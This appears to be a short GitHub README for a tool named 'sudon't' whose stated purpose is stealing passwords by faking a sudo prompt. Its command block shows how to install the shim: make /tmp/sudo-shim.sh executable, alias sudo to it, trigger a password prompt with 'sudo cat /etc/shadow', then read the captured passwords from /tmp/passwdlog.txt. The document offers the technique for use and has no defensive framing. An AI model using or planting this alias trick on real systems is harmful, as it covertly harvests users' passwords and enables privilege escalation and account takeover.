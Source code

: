# sudon't

Steal passwords by faking a sudo prompt.

```
chmod +x /tmp/sudo-shim.sh

alias sudo="/tmp/sudo-shim.sh"

sudo cat /etc/shadow

> enter your password

cat /tmp/passwdlog.txt
```

